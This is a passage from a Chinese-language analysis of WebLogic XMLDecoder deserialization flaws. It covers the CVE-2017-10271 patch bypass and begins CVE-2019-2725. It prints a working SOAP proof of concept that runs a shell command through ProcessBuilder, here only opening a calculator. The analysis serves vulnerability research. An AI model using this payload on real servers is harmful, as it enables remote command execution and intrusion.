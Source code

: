 补丁非常的简单，一旦标签是object，系统报错，于是立马出了第二版的poc，CVE-2017-10271：

```
&lt;soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"&gt;
    &lt;soapenv:Header&gt;
        &lt;work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"&gt;
            &lt;java&gt;
                &lt;void class="java.lang.ProcessBuilder"&gt;
                    &lt;array class="java.lang.String" length="3"&gt;
                        &lt;void index="0"&gt;
                            &lt;string&gt;/bin/bash&lt;/string&gt;
                        &lt;/void&gt;
                        &lt;void index="1"&gt;
                            &lt;string&gt;-c&lt;/string&gt;
                        &lt;/void&gt;
                        &lt;void index="2"&gt;
                            &lt;string&gt; open /Applications/Calculator.app/&lt;/string&gt;
                        &lt;/void&gt;
                    &lt;/array&gt;
                    &lt;void method="start"/&gt;
                &lt;/void&gt;
            &lt;/java&gt;
        &lt;/work:WorkContext&gt;
    &lt;/soapenv:Header&gt;
    &lt;soapenv:Body/&gt;
&lt;/soapenv:Envelope&gt;
```

乍一看这个poc，简直和CVE-2017-3506一模一样，唯一得到区别就是

&lt;object class=”java.lang.ProcessBuilder”&gt;变成了

&lt;void class=”java.lang.ProcessBuilder”&gt;

仅仅是类的标签类型由object变成了void，我们去看一下VoidElementHandler的源码：

[![](https://p1.ssl.qhimg.com/t0183b6c64f75db30ec.png)](https://p1.ssl.qhimg.com/t0183b6c64f75db30ec.png)

可以看到VoidElementHandler是ObjectElementHandler类的子类，这也就解释了为什么把object标签换成Void标签也同样可以造成命令执行。



## CVE-2019-2725

时隔一年多，CVE-2019-2725爆出，这次的漏洞是要分两块来看的，
1. 新爆出的存在反序列化的组件_async
1. CVE-2017-10271的补丁被绕过
首先看第一点，在ProcessBuilder的start函数上打一个断点，先看一下async组件在处理xml时候的调用链（老规矩只追到XMLDecoder.readObject函数），

[![](https://p1.ssl.qhimg.com/dm/1024_980_/t01baca8c10e69b2d4c.png)](https://p1.ssl.qhimg.com/dm/1024_980_/t01baca8c10e69b2d4c.png)

引用廖大神的分析思路，请求会经过webservice注册的21个Handler来处理，看一下HandlerIterator类，就能发现对应的21个Handler，

[![](https://p0.ssl.qhimg.com/dm/1024_375_/t0169297b332b813621.png)](https://p0.ssl.qhimg.com/dm/1024_375_/t0169297b332b813621.png)
